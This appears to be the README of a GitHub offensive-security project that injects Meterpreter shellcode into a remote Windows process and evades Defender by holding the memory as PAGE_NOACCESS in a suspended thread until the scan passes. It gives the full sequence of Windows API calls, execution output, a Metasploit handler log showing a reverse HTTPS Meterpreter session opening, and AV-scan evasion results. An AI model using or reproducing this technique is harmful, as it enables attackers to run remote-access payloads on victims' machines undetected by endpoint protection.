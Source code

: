 # Suspended Thread Injection
Another meterpreter injection technique using C# that attempts to bypass Defender.

If you do use any of the code in these repositories **keep it legal**!

# Introduction
This code was written after reading [Bypassing Windows Defender Runtime Scanning](https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/) by **F-Secure Labs**. The technique I have written isn't the same but it got me thinking about how I can inject meterpreter into a remote process and go under the Defender radar.

The technique is quite simple:

- Open a remote process using `OpenProcess`.
- Decrypt the meterpreter payload in memory.
- Allocate some memory in the remote process using `VirtualAllocEx`, ensuring we assign the correct permissions to write to the memory of course.
- Write our payload into the allocated memory using `WriteProcessMemory`.
- Protect the memory using `VirtualProtectEx`, setting the protection to `PAGE_NOACCESS`.
- Create a new suspended thread using `CreateRemoteThread`.
- Sleep for 10 seconds while Defender scans the remote process memory for malicious code.
- Change the protection on the memory using `VirtualProtectEx`, setting the protection to `PAGE_EXECUTE_READ_WRITE`.
- Resuming the remote thread using `ResumeThread`

It would appear that protecting the page with `PAGE_NOACCESS` containing our meterpreter shellcode is not scanned by Defender and is not detected. By suspending the thread upon creation we are able to 'hold' the shellcode in memory until Defender has done it's scan then execute the shellcode when Defender has finished.

# Important
Remember, the code looks for an instance of notepad to inject into, it is trivial to change this, or even spawn a surregate process to inject in to.

# Example
Execution of the code is shown below:

```
[+] OpenProcess with PID 49416.
[+] VirtualAllocEx (PAGE_EXECUTE_READ_WRITE) on 0x2C4.
[+] WriteProcessMemory to 0x247A8CE0000.
[+] VirtualProtectEx (PAGE_NOACCESS) on 0x247A8CE0000.
[+] CreateRemoteThread (suspended) to 0x247A8CE0000.
[+] Sleeping whilst Defender scans the remote process.
[+] VirtualProtectEx (PAGE_EXECUTE_READ_WRITE) on 0x247A8CE0000.
[+] Resume thread 0x368.
```

And the meterpreter shell:

```
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://192.168.1.228:443
[*] https://192.168.1.228:443 handling request from 192.168.1.142; (UUID: lsezjczd) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.228:443 -> 192.168.1.142:60433) at 2021-10-07 08:32:00 +0100
```

# AV Scan Results

The binary was scanned using [antiscan.me](https://antiscan.me/scan/new/result?id=bpyZ4JnoDmkL) on 07/10/2021.

![AV Scan](https://github.com/plackyhacker/SuspendedThreadInjection/blob/main/Suspended_scan.png?raw=true)

# Notes

Tested with windows/x64/meterpreter/reverse_https on Windows 10 Pro (build 10.0.19042) with Defender.
